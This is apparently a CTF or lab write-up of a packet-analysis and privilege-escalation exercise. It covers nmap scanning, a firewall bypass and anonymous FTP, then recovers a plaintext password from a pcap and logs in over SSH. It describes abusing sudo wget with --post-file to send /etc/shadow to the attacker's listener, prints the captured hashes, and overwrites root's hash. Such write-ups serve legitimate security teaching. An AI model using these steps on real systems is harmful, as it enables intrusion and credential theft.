 ## Description
 The purpose of this lab is to learn how to perform network packet analysis in order to get more intel about the hidden network infrastructure, detect misconfigurations, and most importantly, how you can make use of this intel to get access to systems and escalate your privileges. 
## Enumeration
 We started by scanning using `nmap`.
 nmap result:
 ```bash
 PORT   STATE    SERVICE VERSION
21/tcp filtered ftp
22/tcp open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4f:d3:06:c9:29:81:07:68:3a:c1:2b:49:12:39:c6:19 (RSA)
|   256 f8:fe:33:8d:d9:d5:97:3b:14:08:18:10:4f:3a:19:5c (ECDSA)
|_  256 c2:d5:c2:60:62:0d:cd:a9:83:01:92:b6:dd:be:d6:a2 (ED25519)
80/tcp open     http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Port 21 filtered means that the port is being blocked by a firewall.
Using `knock` we can allow connection to port 22. 
```knock works by requiring connection attempts to a series of predefined closed ports. With a simple port knocking method, when the correct sequence of port "knocks" (connection attempts) is received, the firewall opens certain port(s) to allow a connection.```
after that, we can use firewall-bypass script in nmap.

	nmap --script firewall-bypass [IP]
nmap result after bypassing the firewall:
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.16.4.91
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0            5930 Aug 28  2019 login.pcap
```
We can log in into FTP anonymously,we found a file named `login.pcap` we got it using `get`.
Using strings we can find any readable content in the file.
We can see a HTTP request using POST method,which is used to submit data to be processed by the resource identified by the URL.
The body of the request contains the data being sent to the server, in this case the username and password, encoded as `username=kabayla&password=K%40b%40ylA%21`.
So the decoded password is : `K@b@ylA!`
We can easily login using `ssh` with this credentials.
We can use `sudo -l` to list the user's sudo privileges.
So our user `kabayla` can run `/usr/bin/wget` as root without password.
Using `wget` we can post some files to our machine using `--post-file` option.
Starting our listener for port 80 we can get the files that we post from `wget`.
Doing this trick with /etc/shadow can help us view the password hash. We can crack it or overwrite it.
We got the POST request:
```bash
POST / HTTP/1.1
User-Agent: Wget/1.19.4 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 172.16.1.203
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 1021

root:*:18099:0:99999:7:::
daemon:*:18099:0:99999:7:::
bin:*:18099:0:99999:7:::
sys:*:18099:0:99999:7:::
sync:*:18099:0:99999:7:::
games:*:18099:0:99999:7:::
man:*:18099:0:99999:7:::
lp:*:18099:0:99999:7:::
mail:*:18099:0:99999:7:::
news:*:18099:0:99999:7:::
uucp:*:18099:0:99999:7:::
proxy:*:18099:0:99999:7:::
www-data:*:18099:0:99999:7:::
backup:*:18099:0:99999:7:::
list:*:18099:0:99999:7:::
irc:*:18099:0:99999:7:::
gnats:*:18099:0:99999:7:::
nobody:*:18099:0:99999:7:::
systemd-network:*:18099:0:99999:7:::
systemd-resolve:*:18099:0:99999:7:::
syslog:*:18099:0:99999:7:::
messagebus:*:18099:0:99999:7:::
_apt:*:18099:0:99999:7:::
lxd:*:18099:0:99999:7:::
uuidd:*:18099:0:99999:7:::
dnsmasq:*:18099:0:99999:7:::
landscape:*:18099:0:99999:7:::
sshd:*:18099:0:99999:7:::
pollinate:*:18099:0:99999:7:::
ubuntu:!:18136:0:99999:7:::
ftp:*:18136:0:99999:7:::
kabayla:$6$MC5Bf0ny.RmVf$q/j4e1ab8xkBF9rRtILPemtZq3BMrPkjK.mCcb7jraCMBswToeYwTtKDqHgwlmNA6sCZv2rlOQ6hdGqv63Aqb1:18136:0:99999:7:::
Debian-snmp:!:18971:0:99999:7:::
```

We saved the output in a file named `shadow` in our machine, then we update the hash of root account we haah of kabayla account so they have the same hash, and we can easily log in root using the password of kabayala.
after editing the hash we can launch http server, and using `wget` we can replace the machine shadow with our modified shadow.
Then we easily logged in root,and got our flag.
